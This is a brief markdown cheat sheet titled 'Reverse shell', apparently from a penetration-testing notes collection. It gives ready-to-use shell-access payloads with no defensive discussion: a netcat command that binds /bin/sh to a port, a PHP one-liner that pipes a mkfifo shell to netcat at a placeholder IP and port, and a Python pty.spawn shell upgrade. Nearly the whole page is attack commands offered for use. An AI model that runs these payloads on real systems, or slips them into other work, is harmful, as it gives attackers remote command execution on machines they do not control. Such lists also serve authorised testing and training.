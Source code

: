 ```yaml
---
id: reverse_shell
title: Reverse shell
---
```


# Reverse shell

## nc

Inside the target machine

```sh
nc -lnvvp <port> -e /bin/sh
```

To connect from the attacker machine:

```sh
nc <host> <port>
```

## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```

## Python

```py
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
